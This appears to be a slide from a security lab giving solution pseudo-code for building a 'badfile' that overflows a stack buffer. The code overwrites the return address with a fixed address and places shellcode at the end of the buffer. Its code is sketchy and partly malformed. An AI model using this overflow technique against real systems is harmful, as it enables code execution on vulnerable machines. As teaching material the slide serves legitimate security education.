

# Solution pseudo code for creating the badfile
main(){
…
//place return address
*((long *) buffer+0x24))= 0xbfff260
// place the shell code towards the end of the buffer
Memcpy(buffer+sizeof(buffer)-sizeof(shellcode), shellcode, sizeof(shellcode);
…
}